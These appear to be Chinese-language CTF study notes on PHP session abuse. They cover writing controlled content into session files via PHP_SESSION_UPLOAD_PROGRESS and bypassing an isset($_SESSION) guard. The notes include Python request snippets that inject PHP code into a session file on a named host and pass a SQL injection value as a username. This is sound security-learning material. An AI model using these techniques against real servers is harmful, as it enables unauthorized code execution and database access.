 tags:: CTF/PHP/文件上传, CTF/RCE

- # 利用session向文件中写入文件
	- php session 的 ID 是可以在 cookie 中自定义的
	- session 位置一般是`/tmp/`或者`/var/lib/php/sessions`
	- session 文件名为 sess_xxxxx, xxxxx 就是自定义的 session ID
	- 而且，在上传文件时，文件的上传状态会保存在 session 文件中。
	- 而文件的上传状态也是可以控制的
	- 所以这样就可以上传恶意文件
		- ```python
		  requests.post(
		  "http://124.71.162.7:10882/",
		  data={
		      "PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123;?>"
		  },
		  files={"file":('a.txt', io.BytesIO(b'a' * 1024 * 50))},
		  cookies={"PHPSESSID": "test"}
		  )
		  ```
	- 文件名在上面
- # 绕过isset($_SESSION)
	- 利用`isset($_SESSION)`来阻止访问template文件是不安全的。
	- 如果`php.ini`中开启了`session.upload_progress.enabled`，那么用户可以通过`PHP_SESSION_UPLOAD_PROGRESS`让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": 'bbb"||1#',
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
	- 示例：[[CTFWEB/WP/BUUCTF/PwnThyBytes 2019 Baby_SQL]]
- # 伪造session
	- [[CTFWEB/WP/BUUCTF/HFCTF2020 BabyUpload]]
